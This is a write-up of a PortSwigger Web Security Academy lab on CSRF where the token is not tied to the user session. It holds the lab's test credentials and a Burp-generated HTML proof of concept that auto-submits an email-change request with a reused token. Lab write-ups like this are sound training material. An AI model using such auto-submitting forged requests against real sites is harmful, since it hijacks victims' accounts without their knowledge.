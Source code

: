
# CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/1.png)

---------------------------------------------


In this case the default POST request to change the email contains a parameter “csrf”. I intercepted and dropped the request sp the CSRF token is not used, but before that I created the CSRF PoC:

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/2.png)


Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8d002b036bf12e80d4301200d80079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test9&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="FbQyYrVpBEJETLtQVqXtlLRi69gJg3WR" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```